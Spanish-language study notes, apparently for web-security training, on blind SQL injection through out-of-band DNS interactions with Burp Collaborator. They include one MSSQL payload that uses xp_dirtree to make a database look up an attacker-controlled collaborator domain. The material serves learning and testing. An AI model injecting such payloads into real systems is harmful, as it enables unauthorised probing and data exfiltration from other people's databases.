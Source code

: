 # Explotación de la inyección SQL ciega mediante técnicas fuera de banda (OAST)

Puede ser que la aplicación web, realize la consulta de forma asincrónica. En el hilo origninal atiende a la solicitud del usuario y otro hilo para ejecutar la consulta SQL utilizando la cookie de seguimiento.
En esta situación la SQLi blind seria atraves de interacciones de red fuera de banda con un sistema que tenmos control. Estos se pueden activar en funcion de la condicion inyectada para inferir información pieza por pieza.

Normalmente se usa el protocolo DNS. Ya que este es esencial. Muchas redes permiten la salida de consultas DNS.


La herramienta burp collaborator, para técnicas fuera de banda. Servidor que proporciona implementaciones personalizadas de varios servicios de red.
Permite la detecion de cuando ocurren interacciones de red como resultado del envio de payloads individuales a una aplicaion vulnerable. 

MIc SQL server se puede uutilizar para probocar una busqueda de DNS en un dominio especifico: 
```bash
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```
Esto hace que la base de datos realice una búsqueda del siguiente dominio:
```
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
```
Puede utilizar Burp Collaborator para generar un subdominio único y sondear el servidor Collaborator para confirmar cuándo se produce alguna búsqueda de DNS.

# LAB 1 y 2 se hacen con el pro (MIrar más adelante)



